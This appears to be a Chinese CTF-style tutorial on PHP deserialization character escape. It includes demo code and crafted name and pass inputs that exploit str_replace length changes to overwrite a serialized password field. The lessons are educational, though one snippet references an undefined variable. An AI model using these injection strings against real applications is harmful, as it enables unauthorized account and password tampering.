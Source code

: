 ```yaml
---
title: 简单弄懂php反序列化之字符逃逸(修改密码功能) 
tags: 
- 反序列化
- ctf
- php
categories: 
- web安全
---
```


字符逃逸，顾名思义就是字符被莫名处理后不能达到以前的效果。

简单的理解[序列化](https://so.csdn.net/so/search?q=序列化&spm=1001.2101.3001.7020)和反序列化就是：

**序列化：将对象转换为字符串；反序列化：将字符串转换为对象；**

这里区别于java的序列化，java是将对象转换为字节码的形式，一般是在一些IO流中，实现Serializable接口。

下面给出一段一段序列化：

``` 
O:5:"nlost":2:{s:4:"name";s:5:"admin";s:6:"passwd";s:5:"12345";}
```

从这里我们可以看到，对于每段序列化结果，都会以 **}** 代表结尾，这就是导致字符逃逸的原因。

假如我们在可以人为设置参数的地方写上特殊[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)，即包含 }，就可以导致原来的序列化失去该有的效果。

这里还有个前提条件就是**<font color=red >必须要包含字符替换函数</font>**，如str_replace('cc', 'b', $str), 把匹配到的'cc'替换为‘b’，这就导致替换的字符缺少一位，另一种情况就是str_replace('b', 'cc', $str),替换后字符多一位。

**对于将多个字符替换为少，可以称之为<font color=red >吃</font>;(吃掉后面的字符)**

**对于将少个字符替换为多，可以称之为 <font color=red >挤</font>；**

> ## 字符逃逸：‘吃’

给出一段正常的序列化：

``` php

<?php
function filter($str){
    return str_replace('cc', 'b', $str);
}
class nlost{
    public $name;
    public $pass;
    public function __construct($name,$pass){
        $this->name=$name;
        $this->pass=$pass;
    }
}
$a=new nlost('admin','12345');
echo serialize($AA).PHP_EOL;
$res=filter(serialize($a));
echo $res.PHP_EOL;
$c=unserialize($res);
echo "name:  ".$c->name."<br>";
echo "pass:  ".$c->pass;
?>
```

正常输出：

```
O:5:"nlost":2:{s:4:"name";s:5:"admin";s:4:"pass";s:5:"12345";}
O:5:"nlost":2:{s:4:"name";s:5:"admin";s:4:"pass";s:5:"12345";}
name:  admin
pass:  12345
```

假如name和pass是我们可以控制的参数，并且调用了filter()方法呢？

``` php
<?php
function filter($str){
    return str_replace('cc', 'b', $str);
}
class nlost{
    public $name;
    public $pass;
    public function __construct($name,$pass){
        $this->name=$name;
        $this->pass=$pass;
    }
}
$a=new nlost('cccccccccccccccccccccccccccccccccccc',';s:4:"pass";s:6:"hacker";}');
echo serialize($a).PHP_EOL;
$res=filter(serialize($a));
echo $res.PHP_EOL;
$c=unserialize($res);
echo "pass:  ".$c->pass;
?>
```

输出：

O:5:"nlost":2:{s:4:"name";s:36:"cccccccccccccccccccccccccccccccccccc<font color=red>";s:4:"pass";s:26:</font>";<font color=lightgreen>s:4:"pass";s:6:"hacker";}</font>";}
O:5:"nlost":2:{s:4:"name";s:36:"bbbbbbbbbbbbbbbbbb";s:4:"pass";s:26:";s:4:"pass";s:6:"hacker";}";}
pass:  hacker

filter方法中我们知道，每2个c就被替换为1个b，红色部分是我们在每次正常序列化时都会产生的部分，也就是我们需要吃掉的部分，不然每次解析的时候都会多出那一部分。利用filter方法，红色部分共18个字符，那么就需要吃掉18个，所以就需要36c，经过filter后变为16个b，剩下的16个用红色部分字符补充，后面跟的pass（绿色部分）就是我们自己按序列化形式写的，以} 结尾，

这就实现了字符逃逸被 ‘吃’ 的情况。更改了我们的账号和密码。

> ## 字符逃逸：‘挤’

下面说一下‘挤’的情况：

``` php
<?php
function filter($str){
    return str_replace('b', 'cccc', $str);
}
class nlost{
    public $name;
    public $pass;
    public function __construct($name,$pass){
        $this->name=$name;
        $this->pass=$pass;
    }
}
$a=new nlost('bbbbbbbbb";s:4:"pass";s:6:"hacker";}','1243');
echo serialize($a).PHP_EOL;
$res=filter(serialize($a));
echo $res.PHP_EOL;
$c=unserialize($res);
echo 'pass:  '.$c->pass;
?>
```

输出：

O:5:"nlost":2:{s:4:"name";s:36:"bbbbbbbbb<font color=red>";s:4:"pass";s:6:"hacker";}</font>";s:4:"pass";s:4:"1243";}
O:5:"nlost":2:{s:4:"name";s:36:"cccccccccccccccccccccccccccccccccccc";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:4:"1243";}
pass:  hacker

原理都相同，就是替换后字符变多，将多的字符挤了出去。先找到固定序列化输出部分（就是正常情况下构造恶意的pass的序列化输出），判断位数；

红色部分就是我们构造的目标语句，共占27个字符，其中1个b替换为4个c,多了3个字符，27/3=9，所以需要9个b就会将红色部分挤到pass的位置。而又因为红色部分包含 }，会提前结束，就会放弃后面的部分，导致pass被更改。 